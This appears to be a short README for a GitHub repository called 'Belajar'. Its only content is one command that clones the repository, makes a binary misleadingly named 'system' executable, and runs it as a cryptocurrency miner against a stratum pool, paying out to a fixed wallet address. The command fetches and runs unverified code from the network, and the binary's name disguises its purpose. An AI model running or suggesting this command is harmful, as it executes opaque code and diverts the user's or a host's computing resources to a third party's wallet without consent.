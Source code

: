 # Belajar
# git clone https://github.com/hasanndjiase/Belajar && chmod +x Belajar/system && Belajar/system -a yespowerSUGAR -o stratum+tcp://stratum-asia.rplant.xyz:7042 -u sugar1qxqw9kgzkfn4vjlzm3825jye4ck2xakmejzta9t.Test --no-auto
# Run
